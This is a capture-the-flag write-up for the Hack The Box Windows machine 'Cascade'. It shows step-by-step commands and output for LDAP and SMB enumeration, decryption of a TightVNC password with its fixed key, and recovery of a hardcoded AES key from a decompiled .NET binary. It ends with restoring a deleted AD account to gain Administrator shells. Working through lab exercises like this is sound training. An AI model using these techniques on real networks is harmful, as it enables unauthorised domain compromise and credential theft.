


# Cascade

<table>
    <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Windows</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Medium</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>30</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>28 Mar 2020</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.182</td>
    </tr>
</table>

## Summary

This machine relies a lot on enumeration. We query LDAP in order to find a set of credentials and use it to find more files in SMB shares. We then find VNC credentials that we can decrypt and are reused on the user's account to get a shell. Using the new credentials, we can find more files on the SMB shares including a .Net executable that we can reverse engineer to get a password to a utility account. Finally, this account allows us to access the AD recycle bin and recover the Administrator password.

## Foothold

To begin, we will add the entry `10.10.10.182 cascade.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T4 cascade.htb
Nmap scan report for cascade.htb (10.10.10.182)
Host is up (0.11s latency).
Not shown: 987 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-09 15:02:15Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

From this, we see that the machine is a domain controller with the presence of Kerberos and LDAP. To begin, we will do some enumeration. If we try to get information on SMB, we cannot view anything.

```
# smbclient -L cascade.htb -U ""
Enter WORKGROUP\'s password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Beyond SMB enumeration, we can look at LDAP. We can get initially get a list of users with `enum4linux`.

```
# enum4linux -U cascade.htb
...
 ============================ 
|    Users on cascade.htb    |
 ============================ 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull     Name: Adrian Turnbull   Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc Name: ArkSvc    Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson       Name: Ben Hanson        Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc      Name: BackupSvc Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest      Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman       Name: David Burman      Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe        Name: Edward Crowe      Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft        Name: Ian Croft Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen        Name: Joseph Allen      Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand     Name: John Goodhand     Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield    Name: James Wakefield   Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson     Name: Ryan Thompson     Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson      Name: Stephanie Hickson Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith        Name: Steve Smith       Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util   Name: Util      Desc: (null)
```

We can try to see if we can log in as any of these users using a tool like the `smb_login` module in Metasploit but none of them work. Trying `enum4linux` with the `-a` flag for all simple enumerations does not find anything useful. We can try some more manual enumeration with `ldapsearch`.

```
# ldapsearch -x -h cascade.htb -b 'dc=cascade,dc=local' -p 389
...
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

This query gives us a ton of information about all the users and other configurations but one user has an extra detail listed. Ryan Thompson has a field called `cascadeLegacyPwd` with a value that looks base64 encoded so we will decode it.

```
# echo clk0bjVldmE= | base64 -d
rY4n5eva
```

We have a password for Ryan so we can try to use his credentials somewhere. He is not part of the "Remote Management Users" so we cannot use `evil-winrm` to get a shell as him. However, we can use these credentials to look at SMB shares.

```
# smbclient -L cascade.htb -U "r.thompson"
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

## User

We can get into a few of these shares with our new credentials: `Audit$`, `Data`, `NETLOGON`, `print$`, and `SYSVOL`. We cannot view anything in `Audit$`, `NETLOGON` and `SYSVOL` do not have any interesting information, `print$` seems to just be printer files, but `Data` has some interesting files in it.

```
# smbclient \\\\cascade.htb\\Data -U "r.thompson"
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> cd IT
smb: \IT\> recurse ON
smb: \IT\> prompt OFF
smb: \IT\> mget *
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as Meeting_Notes_June_2018.html (17.5 KiloBytes/sec) (average 17.5 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (9.2 KiloBytes/sec) (average 13.3 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (41.3 KiloBytes/sec) (average 22.7 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (17.0 KiloBytes/sec) (average 21.2 KiloBytes/sec)
```

The meeting notes email mentions that there is a TempAdmin account which has the same password as Administrator which would be very useful to find.

The AD recycle log shows that the ArkSvc user discarded the TempAdmin user at some time.

```
# cat ArkAdRecycleBin.log 
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

The DC diagnosis log shows nothing useful, just that tests has passed.

The VNC Install file was found in the folder for `s.smith` and shows VNC adding values to the registry including an encrypted password.

```# cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

The hex does not decode to ASCII so it is still encrypted by something. If we do some research, we can find a [repository](https://github.com/frizb/PasswordDecrypts) about decrypting VNC passwords. VNC used a hard coded DES key in order to encrypt credentials among different products including TightVNC. Using Metasploit, we can easily decrypt the password.

```
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"
```

Now that we have Steve Smith's password, and since he is part of the "Remote Management Users" group, we can use `evil-winrm` to get a shell as him and get the flag.

```
# evil-winrm -i cascade.htb -u s.smith -p sT333ve2

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> cat user.txt
56c7a4**************************
```

## Root

One thing we can try now, is to look at the `Audit$` share that we could not view earlier. If we try with the new credentials, we can find some interesting files.

```
# smbclient \\\\cascade.htb\\Audit$ -U "s.smith"
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86  
```

Looking at the Batch file, we see that the scripts calls `CascAudit.exe` using a file from the database.

```bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

Since the `CascAudit.exe` is a .Net executable, we can use ILSpy to decompile and analyze it. On Linux, we can use AvalonialILSpy.



By looking at the main module of the executable, we can see that the password is decrypted with a custom crypto function from `CascCrypto.dll`.

```c#
string str = string.Empty;
string password = string.Empty;
string str2 = string.Empty;
try
{
	val.Open();
	SQLiteCommand val2 = (SQLiteCommand)(object)new SQLiteCommand("SELECT * FROM LDAP", val);
	try
	{
		SQLiteDataReader val3 = val2.ExecuteReader();
		try
		{
			val3.Read();
			str = Conversions.ToString(val3.get_Item("Uname"));
			str2 = Conversions.ToString(val3.get_Item("Domain"));
			string encryptedString = Conversions.ToString(val3.get_Item("Pwd"));
			try
			{
				password = Crypto.DecryptString(encryptedString, "c4scadek3y654321");
			}
...
```

```c#
public static string DecryptString(string EncryptedString, string Key)
{
	//Discarded unreachable code: IL_009e
	byte[] array = Convert.FromBase64String(EncryptedString);
	Aes aes = Aes.Create();
	aes.KeySize = 128;
	aes.BlockSize = 128;
	aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
	aes.Mode = CipherMode.CBC;
	aes.Key = Encoding.UTF8.GetBytes(Key);
	using (MemoryStream stream = new MemoryStream(array))
	{
		using (CryptoStream cryptoStream = new CryptoStream(stream, aes.CreateDecryptor(), CryptoStreamMode.Read))
		{
			byte[] array2 = new byte[checked(array.Length - 1 + 1)];
			cryptoStream.Read(array2, 0, array2.Length);
			return Encoding.UTF8.GetString(array2);
		}
	}
}
```

Using SQLLite Database Browser, we can easily find the value we need to decrypt from the database.



We can now use https://dotnetfiddle.net to create a simple C# program online and decrypt ArkSvc's password.

```c#
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class Program
{
	public static void Main()
	{
		try
            {
				string password = DecryptString("BQO5l5Kj9MdErXx6Q6AGOw==", "c4scadek3y654321");
				Console.WriteLine("Decrypted Pwd: {0}", password);
            }
            catch (Exception e)
            {
                Console.WriteLine("Error: {0}", e.Message);
            }
		
	}
	
	public static string DecryptString(string EncryptedString, string Key)
	{
		byte[] array = Convert.FromBase64String(EncryptedString);
		Aes aes = Aes.Create();
		aes.KeySize = 128;
		aes.BlockSize = 128;
		aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
		aes.Mode = CipherMode.CBC;
		aes.Key = Encoding.UTF8.GetBytes(Key);
		using (MemoryStream stream = new MemoryStream(array))
		{
			using (CryptoStream cryptoStream = new CryptoStream(stream, aes.CreateDecryptor(), CryptoStreamMode.Read))
			{
				byte[] array2 = new byte[checked(array.Length - 1 + 1)];
				cryptoStream.Read(array2, 0, array2.Length);
				return Encoding.UTF8.GetString(array2);
			}
		}
	}
}
```

After running the program, we get the decrypted password of `w3lc0meFr31nd`. Using `evil-winrm` again, we can get a shell as ArkSvc.

```
# evil-winrm -i cascade.htb -u ArkSvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

Now that we have access to ArkSvc, we can utilize the AD recycling bin that we saw earlier. in a [blog post](https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/), we can see that is is rather easy to recover deleted objects from this place.

```
*Evil-WinRM* PS C:\Users\arksvc> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
...
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
```

TempAdmin's password is again base64 encoded like before, so we can easily recover it.

```
# echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Since we know that this password is the same as Administrator's, we can get an Administrator shell with `evil-winrm` and get the flag.

```
# evil-winrm -i cascade.htb -u Administrator -p baCT3r1aN00dles

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
60a036**************************
```
